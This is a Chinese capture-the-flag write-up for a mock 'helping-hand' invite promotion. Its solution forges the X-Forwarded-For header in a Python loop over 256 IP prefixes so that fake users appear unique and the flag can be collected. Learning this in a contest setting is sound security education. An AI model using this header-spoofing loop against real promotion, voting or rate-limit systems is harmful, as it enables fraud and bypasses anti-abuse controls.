



## 题目

“听说没？【大砍刀】平台又双叒做活动啦！参与活动就送 0.5 个 flag 呢，攒满 1 个 flag 即可免费提取！”

“还有这么好的事情？我也要参加！”

“快点吧！我已经拿到 flag 了呢！再不参加 flag 就要发完了呢。”

“那怎么才能参加呢？”

“这还不简单！点击下面的链接就行”

## 解题思路

- 类似于并夕夕的助力 23333 <br>


- 主要是向助力链接发送含 IP 地址的 POST 请求
    ```bash
    curl '<invite-url>' -X POST --data-raw 'ip=xxx.xxx.xxx.xxx'
    ```

- 众所周知，同一用户不能重复助力，此处视同一 /8 地址为重复用户（还挺严格x）<br>


- 不能直接修改 POST 请求中的 IP 地址<br>


- 服务端通过 HTTP 请求头中的 `X-Forwarded-For` 识别客户端的原始 IP，接下来就是伪造 IP 地址 ~~疯狂~~ 助力 🤪

    ```py
    import requests
    from time import sleep

    for i in range(256):
        ip = f'{i}.1.1.1'   # /8
        header = {
            'X-Forwarded-For': ip,
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36'
        }
        res = requests.post('<invite-url>', data=dict(ip=ip), headers=header).content.decode()
        sleep(2)
    ```

## 参考资料

- [X-Forwarded-For - Wikipedia](https://en.wikipedia.org/wiki/X-Forwarded-For)